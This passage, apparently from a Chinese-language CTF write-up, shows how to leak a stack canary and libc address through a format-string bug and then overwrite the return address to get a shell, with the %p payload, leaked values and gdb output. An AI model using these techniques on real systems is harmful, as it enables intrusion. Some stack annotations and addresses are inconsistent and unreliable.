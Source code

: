 ## 構造 Payload

根據 CWE (Common Weakness Enumeration) 弱點分類系統，<br>
編號為 CWE-242[1]： **Use of Ingherently Dangerous Function**<br>也就是說，一旦使用了 `gets()`，便會發生 overflow，雖然有開啟 Canary 保護，<br>
然而，此程式有 format string 漏洞，便能 leak 出 Canary。 <br>
<br>
由於 `rbx` 值為 `rsp`，而 `rsp` 值相當於 `rbp-0x50`，<br>
因此構造 payload 如下：
```
aaaaaaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
```
其 Leak 出 Stack 內容如下：
```
aaaaaaaa 0x7ffe915e8330 0x10 0x7f55f21e38c0 0x7f55f23f1500 0x6161616161616161 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x702520 0x7ffe915e8460 0x513bddc1e9390500 (nil) 0x7f55f1e17b97 0x1 0x7ffd7626bab8 0x100008000 0x561ce2198850
```
整理成 stack section 內容如下 (按照下面 gdb 來對齊)： <br>
(位址因為有開ASLR，每一次執行位址都會不同)
```
Address             Contents
--------------------------------------------------
0x7ffe915e8310 <%p> 0x7ffe915e8330    
0x7ffe915e8318 <%p> 0x10
0x7ffe915e8320 <%p> 0x7fbfee8158c0
0x7ffe915e8328 <%p> 0x7fbfeea23500
0x7ffe915e8330 <%p> 0x6161616161616161 <rbp-0x50>
0x7ffe915e8338 <%p> 0x2520702520702520 一堆 "%p "
0x7ffe915e8340 <%p> 0x2070252070252070 一堆 "%p "
0x7ffe915e8348 <%p> 0x7025207025207025 一堆 "%p "
0x7ffe915e8350 <%p> 0x2520702520702520 一堆 "%p "
0x7ffe915e8358 <%p> 0x2070252070252070 一堆 "%p "
0x7ffe915e8360 <%p> 0x7025207025207025 一堆 "%p "
0x7ffe915e8368 <%p> 0x702520           "%p "
0x7ffe915e8370 <%p> 0x7ffe915e8460     <_start>
0x7ffe915e8378 <%p> 0x513bddc1e9390500 <canary>
0x7ffe915e8380 <%p> (nil)
0x7ffe915e8388 <%p> 0x7f55f1e17b97 <__libc_start_main+231> 為 saved rbp
0x7ffe915e8390 <%p> 0x1            <ret>
0x7ffe915e8398 <%p> 0x7ffd7626bab8
0x7ffe915e83a0 <%p> 0x100008000
0x7ffe915e83a8 <%p> 0x561ce2198850
--------------------------------------------------
```

觀察輸入 format string payload 時，可利用的殘留值 <br>
殘留值指的是，當呼叫 import function 時，我們可透過 format string leak 的位址，計算出 library base address，並且在 return 時候，竄改成 do_system() 位址，便能夠取得 shell <br>
因此我們利用 `__libc_start_main()` 來計算 base <br>
此外，若輸入包含 `\x00` 開頭的字串，便能夠繞過長度的檢查
```sh
gdb-peda$ stack 25
0000| 0x7ffff48dcd50 --> 0x7ffff48dcd70 --> 0x6161616161616100 ('')
0008| 0x7ffff48dcd58 --> 0x7ffff48dcd70 --> 0x6161616161616100 ('')
0016| 0x7ffff48dcd60 --> 0x55ee80b9ca70 (<__libc_csu_init>:	push   r15)
0024| 0x7ffff48dcd68 --> 0x55ee80b9c8b5 (<main+101>:	test   eax,eax)
0032| 0x7ffff48dcd70 --> 0x6161616161616100 ('')
0040| 0x7ffff48dcd78 ('a' <repeats 56 times>)
0048| 0x7ffff48dcd80 ('a' <repeats 48 times>)
0056| 0x7ffff48dcd88 ('a' <repeats 40 times>)
0064| 0x7ffff48dcd90 ('a' <repeats 32 times>)
0072| 0x7ffff48dcd98 ('a' <repeats 24 times>)
0080| 0x7ffff48dcda0 ('a' <repeats 16 times>)
```